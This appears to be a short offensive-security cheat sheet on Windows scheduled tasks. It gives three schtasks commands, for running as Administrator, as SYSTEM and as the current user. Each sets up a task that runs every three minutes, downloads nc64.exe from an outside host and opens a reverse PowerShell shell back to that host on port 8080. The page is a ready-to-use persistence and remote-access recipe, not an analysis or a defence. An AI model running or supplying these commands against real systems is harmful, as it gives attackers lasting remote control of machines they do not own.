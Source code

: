 ## Tool: Scheduled Tasks (Windows)

To create a scheduled task that runs every 3 minutes, as Administrator, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /ru "Administrator" /rp "password" /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

To create a scheduled task that runs every 3 minutes, as NT Authority/SYSTEM, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /ru "NT Authority\SYSTEM" /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

To create a scheduled task that runs every 3 minutes, as current user, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```


